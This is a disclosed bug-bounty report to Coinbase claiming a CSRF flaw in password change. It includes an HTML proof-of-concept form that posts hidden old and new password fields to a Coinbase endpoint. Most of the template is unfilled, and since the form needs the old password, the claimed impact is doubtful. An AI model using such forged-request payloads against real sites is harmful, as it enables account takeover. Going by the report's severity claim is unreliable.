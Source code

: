 # CSRF bug on password change

## Report Details
- **Report ID**: 230436
- **URL**: https://hackerone.com/reports/230436
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-05-21T10:36:04.166Z
- **Disclosed**: 2017-08-28T17:39:14.683Z

## Reporter
- **Username**: dark_heaven
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: coinbase

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, researchers are more likely to earn a larger bounty by explaining how a vulnerability can be exploited to cause harm to Coinbase or its users.

**Summary:** Attacker can change password without user permission

**Description:**HI I found csrf bug on password changing session. It can be dangerous for user. Cause attacker can change password with out user permission. CSRF POC is below :-

<html>
  <body>
    <form action="https://www.coinbase.com/users/59215b8f0ec7c37a4ca27b00/password_reset" method="POST">
      <input type="hidden" name="utf8" value="â&#156;&#147;" />
      <input type="hidden" name="&#95;method" value="patch" />
      <input type="hidden" name="old&#95;password" value="dadaboji1" />
      <input type="hidden" name="password" value="dadaboji" />
      <input type="hidden" name="password&#95;confirmation" value="dadaboji" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

## Browsers Verified In:

  * [firefox 45.9.0]
  * [add each browser and version number tested in]

## Steps To Reproduce:

(Add details for how we can reproduce the issue)

  1. [Intercept with burpsuite. After change password click]
  1. [Make CSRF POC with burpsuite]
  1. [change data]

## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)

## Attachments
No attachments
